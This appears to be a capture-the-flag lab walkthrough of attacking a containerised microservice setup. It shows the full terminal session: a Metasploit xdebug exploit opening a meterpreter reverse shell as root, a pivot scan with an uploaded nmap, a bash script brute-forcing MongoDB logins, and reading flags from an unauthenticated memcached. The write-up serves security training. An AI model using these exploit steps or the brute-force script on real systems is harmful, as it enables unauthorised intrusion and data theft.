



#### 3. Attacking Microservice Containers III

----


- A web portal is running in a containerized environment and follows microservice architecture. However, the web server hosting the web portal has a well-known debugging extension enabled which can be used to get a shell on the machine. Also, there are three flags hidden in the environment.
- Objective: Exploit the vulnerability to get a shell on the target machine and retrieve all three flags!

----

```sh
root@attackdefense:~# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2356: eth0@if2357: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:0a:01:01:06 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.1.1.6/24 brd 10.1.1.255 scope global eth0
       valid_lft forever preferred_lft forever
2360: eth1@if2361: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:c0:b6:df:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 192.182.223.2/24 brd 192.182.223.255 scope global eth1
       valid_lft forever preferred_lft forever
root@attackdefense:~# 
```

```sh
root@attackdefense:~# nmap 192.182.223.2/24
Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-25 14:03 IST
Nmap scan report for 192.182.223.1
Host is up (0.0000080s latency).
Not shown: 998 closed ports
PORT   STATE    SERVICE
22/tcp open     ssh
80/tcp filtered http
MAC Address: 02:42:62:CC:36:CF (Unknown)

Nmap scan report for wbt159cf4d1y5ctbikblzm2ce.temp-network_a-182-223 (192.182.223.3)
Host is up (0.000013s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:C0:B6:DF:03 (Unknown)

Nmap scan report for attackdefense.com (192.182.223.2)
Host is up (0.0000060s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE
8009/tcp open  ajp13

Nmap done: 256 IP addresses (3 hosts up) scanned in 16.47 seconds
root@attackdefense:~# 
```

```
http://192.182.223.3/
http://192.182.223.3/phpinfo.php
```







```sh
root@attackdefense:~# msfconsole 
msf5 > search xdebug

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   1  exploit/unix/http/xdebug_unauth_exec  2017-09-17       excellent  Yes    xdebug Unauthenticated OS Command Execution


msf5 > use exploit/unix/http/xdebug_unauth_exec
msf5 exploit(unix/http/xdebug_unauth_exec) > show options 

Module options (exploit/unix/http/xdebug_unauth_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   PATH     /index.php       yes       Path to target webapp
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       Callback host for accepting connections
   SRVPORT  9000             yes       Port to listen for the debugger
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(unix/http/xdebug_unauth_exec) > set RHOSTS 192.182.223.3
RHOSTS => 192.182.223.3
msf5 exploit(unix/http/xdebug_unauth_exec) > set LHOST 192.182.223.2
LHOST => 192.182.223.2
msf5 exploit(unix/http/xdebug_unauth_exec) > exploit 

[*] Started reverse TCP handler on 192.182.223.2:4444 
[*] 192.182.223.3:80 - Waiting for client response.
[*] 192.182.223.3:80 - Receiving response
[*] 192.182.223.3:80 - Shell might take upto a minute to respond.Please be patient.
[*] 192.182.223.3:80 - Sending payload of size 2030 bytes
[*] Sending stage (38247 bytes) to 192.182.223.3
[*] Meterpreter session 1 opened (192.182.223.2:4444 -> 192.182.223.3:44746) at 2019-07-25 14:09:37 +0530


meterpreter > getuid 
Server username: root (0)
meterpreter > shell
Process 38 created.
Channel 0 created.

find / -name *flag*
/var/www/html/5f7030008ce5-flag

cat /var/www/html/5f7030008ce5-flag
5f7030008ce509a95da870495ac83983

ps -eaf
UID        PID  PPID  C STIME TTY          TIME CMD
root         1     0  0 14:02 ?        00:00:00 /usr/bin/python /usr/bin/supervisord -n
root         8     1  0 14:02 ?        00:00:00 nginx: master process nginx
root        11     1  0 14:02 ?        00:00:00 php-fpm: master process (/etc/php/5.6/fpm/php-fpm.conf)
root        12    11  0 14:02 ?        00:00:00 php-fpm: pool www
root        13    11  0 14:02 ?        00:00:00 php-fpm: pool www
root        18     8  0 14:02 ?        00:00:00 nginx: worker process
root        19     8  0 14:02 ?        00:00:00 nginx: worker process
root        20     8  0 14:02 ?        00:00:00 nginx: worker process
root        21     8  0 14:02 ?        00:00:00 nginx: worker process
root        22     8  0 14:02 ?        00:00:00 nginx: worker process
root        23     8  0 14:02 ?        00:00:00 nginx: worker process
root        24     8  0 14:02 ?        00:00:00 nginx: worker process
root        25     8  0 14:02 ?        00:00:00 nginx: worker process
root        26     8  0 14:02 ?        00:00:00 nginx: worker process
root        27     8  0 14:02 ?        00:00:00 nginx: worker process
root        28     8  0 14:02 ?        00:00:00 nginx: worker process
root        29     8  0 14:02 ?        00:00:00 nginx: worker process
root        30     8  0 14:02 ?        00:00:00 nginx: worker process
root        31     8  0 14:02 ?        00:00:00 nginx: worker process
root        32     8  0 14:02 ?        00:00:00 nginx: worker process
root        33     8  0 14:02 ?        00:00:00 nginx: worker process
root        34     8  0 14:02 ?        00:00:00 nginx: worker process
root        35     8  0 14:02 ?        00:00:00 nginx: worker process
root        36     8  0 14:02 ?        00:00:00 nginx: worker process
root        37     8  0 14:02 ?        00:00:00 nginx: worker process
root        38    12  0 14:10 ?        00:00:00 sh -c /bin/sh 
root        39    38  0 14:10 ?        00:00:00 /bin/sh
root        42    39  0 14:10 ?        00:00:00 ps -eaf

ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.182.223.3  netmask 255.255.255.0  broadcast 192.182.223.255
        ether 02:42:c0:b6:df:03  txqueuelen 0  (Ethernet)
        RX packets 1736  bytes 182762 (182.7 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1186  bytes 483460 (483.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.230.55.2  netmask 255.255.255.0  broadcast 192.230.55.255
        ether 02:42:c0:e6:37:02  txqueuelen 0  (Ethernet)
        RX packets 24  bytes 1872 (1.8 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

^C
Terminate channel 0? [y/N]  y
meterpreter > 
```

```sh
root@attackdefense:~# cd Desktop/tools/portable/nmap/
root@attackdefense:~/Desktop/tools/portable/nmap# ls -l
total 7568
-rwxr-xr-x 1 root root 6730184 Mar 27  2018 nmap
-rw-r--r-- 1 root root   14461 May 14 19:43 nmap-payloads
-rw-r--r-- 1 root root  998635 May 14 19:43 nmap-services
root@attackdefense:~/Desktop/tools/portable/nmap# pwd
/root/Desktop/tools/portable/nmap
root@attackdefense:~/Desktop/tools/portable/nmap# 
```

```sh
meterpreter > upload /root/Desktop/tools/portable/nmap /tmp/
[*] uploading  : /root/Desktop/tools/portable/nmap/nmap-payloads -> /tmp//nmap-payloads
[*] uploaded   : /root/Desktop/tools/portable/nmap/nmap-payloads -> /tmp//nmap-payloads
[*] uploading  : /root/Desktop/tools/portable/nmap/nmap -> /tmp//nmap
[*] uploaded   : /root/Desktop/tools/portable/nmap/nmap -> /tmp//nmap
[*] uploading  : /root/Desktop/tools/portable/nmap/nmap-services -> /tmp//nmap-services
[*] uploaded   : /root/Desktop/tools/portable/nmap/nmap-services -> /tmp//nmap-services
meterpreter > 
```

```sh
meterpreter > shell
Process 44 created.
Channel 4 created.

cd /tmp
ls -l
total 7576
-rw-r--r-- 1 root root 6730184 Jul 25 14:11 nmap
-rw-r--r-- 1 root root   14461 Jul 25 14:11 nmap-payloads
-rw-r--r-- 1 root root  998635 Jul 25 14:11 nmap-services
drwx------ 2 root root    4096 May 14 16:55 tmpd9wmyydc
drwx------ 2 root root    4096 May 14 16:55 tmpwdy9pork
chmod +x nmap

ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.182.223.3  netmask 255.255.255.0  broadcast 192.182.223.255
        ether 02:42:c0:b6:df:03  txqueuelen 0  (Ethernet)
        RX packets 2110  bytes 7954990 (7.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1434  bytes 506372 (506.3 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.230.55.2  netmask 255.255.255.0  broadcast 192.230.55.255
        ether 02:42:c0:e6:37:02  txqueuelen 0  (Ethernet)
        RX packets 26  bytes 2012 (2.0 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0


./nmap 192.230.55.2/24
Starting Nmap 7.70SVN ( https://nmap.org ) at 2019-07-25 14:16 IST
Nmap scan report for 192.230.55.1
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.0000080s latency).
Not shown: 998 closed ports
PORT   STATE    SERVICE
22/tcp open     ssh
80/tcp filtered http
MAC Address: 02:42:C1:B6:AA:84 (Unknown)

Nmap scan report for 4ac4v286uov5fvben8sypx5dz.temp-network_b-230-55 (192.230.55.3)
Host is up (0.000013s latency).
All 1000 scanned ports on 4ac4v286uov5fvben8sypx5dz.temp-network_b-230-55 (192.230.55.3) are closed
MAC Address: 02:42:C0:E6:37:03 (Unknown)

Nmap scan report for rtxwvbpwjh0o0zf7vvp766ygy.temp-network_b-230-55 (192.230.55.4)
Host is up (0.000013s latency).
All 1000 scanned ports on rtxwvbpwjh0o0zf7vvp766ygy.temp-network_b-230-55 (192.230.55.4) are closed
MAC Address: 02:42:C0:E6:37:04 (Unknown)

Nmap scan report for victim-1 (192.230.55.2)
Host is up (0.0000060s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 256 IP addresses (4 hosts up) scanned in 16.52 seconds

./nmap -p- 192.230.55.3 192.230.55.4
Starting Nmap 7.70SVN ( https://nmap.org ) at 2019-07-25 14:17 IST
Nmap scan report for 4ac4v286uov5fvben8sypx5dz.temp-network_b-230-55 (192.230.55.3)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.000014s latency).
Not shown: 65534 closed ports
PORT      STATE SERVICE
27017/tcp open  mongod
MAC Address: 02:42:C0:E6:37:03 (Unknown)

Nmap scan report for rtxwvbpwjh0o0zf7vvp766ygy.temp-network_b-230-55 (192.230.55.4)
Host is up (0.000014s latency).
Not shown: 65534 closed ports
PORT      STATE SERVICE
11211/tcp open  memcache
MAC Address: 02:42:C0:E6:37:04 (Unknown)

Nmap done: 2 IP addresses (2 hosts up) scanned in 6.27 seconds
```

```sh
mongo --host 192.230.55.3
MongoDB shell version v3.6.3
connecting to: mongodb://192.230.55.3:27017/
MongoDB server version: 3.6.12
show databases;
2019-07-25T14:20:21.179+0530 E QUERY    [thread1] Error: listDatabases failed:{
	"ok" : 0,
	"errmsg" : "not authorized on admin to execute command { listDatabases: 1.0, $db: \"admin\" }",
	"code" : 13,
	"codeName" : "Unauthorized"
} :
_getErrorWithCode@src/mongo/shell/utils.js:25:13
Mongo.prototype.getDBs@src/mongo/shell/mongo.js:65:1
shellHelper.show@src/mongo/shell/utils.js:816:19
shellHelper@src/mongo/shell/utils.js:706:15
@(shellhelp2):1:1

^C
Terminate channel 4? [y/N]  y
meterpreter > 
```

`mongo-break.sh`

```sh
#!/bin/bash 
while read F1;do
	while read F2;do
	echo "Trying $F1:"$F2
	nohup mongo -u $F1 -p $F2 --authenticationDatabase $1 -host $2 > nohup.out 2>/dev/null & sleep .5
	count=$(cat nohup.out| grep "Authentication failed" |wc -l)
	if [[ $count -eq 0 ]]
	then
	echo "Possible Credentials: $F1:$F2"
	exit 0
	fi
	done < $4
done < $3
```

```sh
root@attackdefense:~# ls -l break-mongo.sh 
-rw-r--r-- 1 root root 329 Jul 25 14:26 break-mongo.sh
root@attackdefense:~# pwd
/root
root@attackdefense:~# 
```

```sh
meterpreter > upload /root/break-mongo.sh /tmp/
[*] uploading  : /root/break-mongo.sh -> /tmp/
[*] uploaded   : /root/break-mongo.sh -> /tmp//break-mongo.sh
meterpreter > upload /root/Desktop/wordlists/100-common-passwords.txt /tmp
[*] uploading  : /root/Desktop/wordlists/100-common-passwords.txt -> /tmp
[*] uploaded   : /root/Desktop/wordlists/100-common-passwords.txt -> /tmp/100-common-passwords.txt
meterpreter > upload /usr/share/seclists/Usernames/top-usernames-shortlist.txt /tmp
[*] uploading  : /usr/share/seclists/Usernames/top-usernames-shortlist.txt -> /tmp
[*] uploaded   : /usr/share/seclists/Usernames/top-usernames-shortlist.txt -> /tmp/top-usernames-shortlist.txt
meterpreter > shell
Process 60 created.
Channel 9 created.

cd /tmp
ls -l
total 7588
-rw-r--r-- 1 root root     794 Jul 25 14:30 100-common-passwords.txt
-rw-r--r-- 1 root root     329 Jul 25 14:27 break-mongo.sh
-rwxr-xr-x 1 root root 6730184 Jul 25 14:11 nmap
-rw-r--r-- 1 root root   14461 Jul 25 14:11 nmap-payloads
-rw-r--r-- 1 root root  998635 Jul 25 14:11 nmap-services
drwx------ 2 root root    4096 May 14 16:55 tmpd9wmyydc
drwx------ 2 root root    4096 May 14 16:55 tmpwdy9pork
-rw-r--r-- 1 root root     112 Jul 25 14:30 top-usernames-shortlist.txt

chmod +x break-mongo.sh

./break-mongo.sh admin 192.230.55.3 top-usernames-shortlist.txt 100-common-passwords.txt
Trying root:242424
Trying root:0987654321
Trying root:marisol
Trying root:nikita
Trying root:daisy
Trying root:jeremiah
Trying root:pineapple
Trying root:mhine
Trying root:isaiah
Trying root:christmas
Trying root:cesar
Trying root:lolipop
Trying root:butterfly1
Trying root:chloe
Trying root:lawrence
Trying root:xbox360
Trying root:sheena
Trying root:murphy
Trying root:madalina
Trying root:anamaria
Trying root:gateway
Trying root:debbie
Trying root:yourmom
Trying root:blonde
Trying root:jasmine1
Trying root:please
Trying root:bubbles1
Trying root:jimmy
Trying root:beatriz
Trying root:poopoo
Trying root:diamonds
Trying root:whitney
Trying root:friendship
Trying root:sweetness
Trying root:pauline
Trying root:desiree
Trying root:trouble
Trying root:741852
Trying root:united
Trying root:marley
Trying root:brian
Trying root:barbara
Trying root:hannah1
Trying root:bananas
Trying root:julius
Trying root:leanne
Trying root:sandy
Trying root:marie1
Trying root:anita
Trying root:lover1
Trying root:chicago
Trying root:twinkle
Trying root:pantera
Trying root:february
Trying root:birthday
Trying root:shadow1
Trying root:qwert
Trying root:bebita
Trying root:87654321
Trying root:twilight
Trying root:imissyou
Trying root:pollito
Trying root:ashlee
Trying root:tucker
Trying root:cookie1
Trying root:shelly
Trying root:catalina
Trying root:147852369
Trying root:beckham
Trying root:simone
Trying root:nursing
Trying root:iloveyou!
Trying root:eugene
Trying root:torres
Trying root:damian
Trying root:123123123
Trying root:joshua1
Trying root:bobby
Trying root:babyface
Trying root:andre
Trying root:donald
Trying root:daniel1
Trying root:panther
Trying root:dinamo
Trying root:mommy
Trying root:juliana
Trying root:cassandra
Trying root:trustno1
Trying root:freedom1
Trying root:14344
Trying root:autumn
Trying root:mendoza
Trying root:sq!us3r
Trying root:adminpasswd
Trying root:raspberry
Trying root:74k&^*nh#$
Trying root:arcsight
Trying root:promise
Trying root:karaf
Trying root:vagrant
Trying admin:242424
Trying admin:0987654321
Trying admin:marisol
Trying admin:nikita
Trying admin:daisy
Trying admin:jeremiah
Trying admin:pineapple
Trying admin:mhine
Trying admin:isaiah
Trying admin:christmas
Trying admin:cesar
Trying admin:lolipop
Trying admin:butterfly1
Trying admin:chloe
Trying admin:lawrence
Trying admin:xbox360
Trying admin:sheena
Trying admin:murphy
Trying admin:madalina
Trying admin:anamaria
Trying admin:gateway
Trying admin:debbie
Trying admin:yourmom
Trying admin:blonde
Trying admin:jasmine1
Trying admin:please
Trying admin:bubbles1
Trying admin:jimmy
Trying admin:beatriz
Trying admin:poopoo
Trying admin:diamonds
Trying admin:whitney
Trying admin:friendship
Trying admin:sweetness
Trying admin:pauline
Trying admin:desiree
Trying admin:trouble
Trying admin:741852
Trying admin:united
Trying admin:marley
Trying admin:brian
Trying admin:barbara
Trying admin:hannah1
Trying admin:bananas
Trying admin:julius
Trying admin:leanne
Trying admin:sandy
Trying admin:marie1
Trying admin:anita
Trying admin:lover1
Trying admin:chicago
Trying admin:twinkle
Trying admin:pantera
Trying admin:february
Trying admin:birthday
Trying admin:shadow1
Trying admin:qwert
Trying admin:bebita
Trying admin:87654321
Trying admin:twilight
Trying admin:imissyou
Trying admin:pollito
Trying admin:ashlee
Trying admin:tucker
Trying admin:cookie1
Trying admin:shelly
Trying admin:catalina
Trying admin:147852369
Trying admin:beckham
Trying admin:simone
Trying admin:nursing
Trying admin:iloveyou!
Trying admin:eugene
Trying admin:torres
Trying admin:damian
Trying admin:123123123
Trying admin:joshua1
Trying admin:bobby
Trying admin:babyface
Trying admin:andre
Trying admin:donald
Trying admin:daniel1
Trying admin:panther
Trying admin:dinamo
Trying admin:mommy
Trying admin:juliana
Trying admin:cassandra
Trying admin:trustno1
Trying admin:freedom1
Trying admin:14344
Trying admin:autumn
Trying admin:mendoza
Trying admin:sq!us3r
Trying admin:adminpasswd
Possible Credentials: admin:adminpasswd

mongo -host 192.230.55.3 --username admin --password adminpasswd --authenticationDatabase admin
MongoDB shell version v3.6.3
connecting to: mongodb://192.230.55.3:27017/
MongoDB server version: 3.6.12
use flag
switched to db flag
show collections
flag
db.flag.find()
{ "_id" : "00001", "flag" : "66721257659fd698b4bc3350e304e507" }
exit
bye

telnet 192.230.55.4 11211
Trying 192.230.55.4...
Connected to 192.230.55.4.
Escape character is '^]'.

version
VERSION 1.5.12

stats items
STAT items:1:number 1
STAT items:1:number_hot 0
STAT items:1:number_warm 0
STAT items:1:number_cold 1
STAT items:1:age_hot 0
STAT items:1:age_warm 0
STAT items:1:age 3329
STAT items:1:evicted 0
STAT items:1:evicted_nonzero 0
STAT items:1:evicted_time 0
STAT items:1:outofmemory 0
STAT items:1:tailrepairs 0
STAT items:1:reclaimed 0
STAT items:1:expired_unfetched 0
STAT items:1:evicted_unfetched 0
STAT items:1:evicted_active 0
STAT items:1:crawler_reclaimed 0
STAT items:1:crawler_items_checked 9
STAT items:1:lrutail_reflocked 0
STAT items:1:moves_to_cold 1
STAT items:1:moves_to_warm 0
STAT items:1:moves_within_lru 0
STAT items:1:direct_reclaims 0
STAT items:1:hits_to_hot 0
STAT items:1:hits_to_warm 0
STAT items:1:hits_to_cold 0
STAT items:1:hits_to_temp 0
END

stats cachedump 1 0
ITEM flag [32 b; 0 s]
END

get flag
VALUE flag 0 32
1fe2b80f74ff6362343246a9bf26000d
END
```

----

###### Reference

- [`microservices`](https://microservices.io/)

----

EOF